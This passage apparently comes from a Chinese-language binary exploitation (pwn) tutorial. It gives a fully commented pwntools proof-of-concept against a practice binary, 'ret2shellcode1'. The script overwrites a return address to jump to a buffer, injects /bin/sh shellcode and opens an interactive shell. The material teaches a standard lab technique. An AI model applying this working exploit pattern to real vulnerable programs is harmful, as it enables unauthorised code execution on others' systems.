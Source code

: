 ![image-20241215200441217](pwn二进制漏洞/image-20241215200441217.png)	

```python
于是即可写poc.py验证漏洞。
from pwn import *
# 导入 pwntools 库，用于编写漏洞利用脚本

context(arch="amd64", os="Linux")
# 设置上下文信息，指定目标程序的架构为 x86_64 (64 位)，操作系统为 Linux

# context.log_level="debug"
# （可选）取消注释后可以输出调试信息，便于分析程序交互和调试过程

e = ELF("./ret2shellcode1")
# 加载目标程序的 ELF 文件，便于提取符号信息（如函数地址、全局变量地址）

buf2 = e.symbols["buf2"]
# 获取目标程序中名为 `buf2` 的数组内存地址，通常是用于存放数据的缓冲区

p = process("./ret2shellcode1")
# 启动目标程序 `./ret2shellcode1` 并返回进程对象 `p`，用于与程序交互

shellcode = asm(shellcraft.sh())
# 使用 pwntools 的 `shellcraft` 模块生成一个 `/bin/sh` Shellcode
# 这个 Shellcode 会在程序中被注入并执行，用于打开一个交互式 Shell

offset = 40
# 设置缓冲区到返回地址的偏移量（通过调试或分析计算得出）

payload1 = offset * b'a' + p64(buf2)
# 构造第一个 Payload：
# - `offset * b'a'`：填充 40 个字符 'a'，覆盖缓冲区到返回地址的区域
# - `p64(buf2)`：覆盖返回地址为 `buf2` 的地址，确保程序返回后跳转到 `buf2`

p.sendline(payload1)
# 发送第一个 Payload，将返回地址覆盖为缓冲区 `buf2` 的地址

payload2 = shellcode.ljust(200, b'A')
# 构造第二个 Payload：
# - 将 `shellcode` 左对齐，用字符 'A' 填充到 200 字节
# - 将 Shellcode 写入缓冲区 `buf2` 中，供后续程序跳转到该缓冲区执行

p.sendline(payload2)
# 发送第二个 Payload，将 Shellcode 写入 `buf2` 的内存区域

p.interactive()
# 进入交互模式，与目标程序交互
# 如果漏洞利用成功，会打开一个交互式 Shell，允许执行任意命令
```

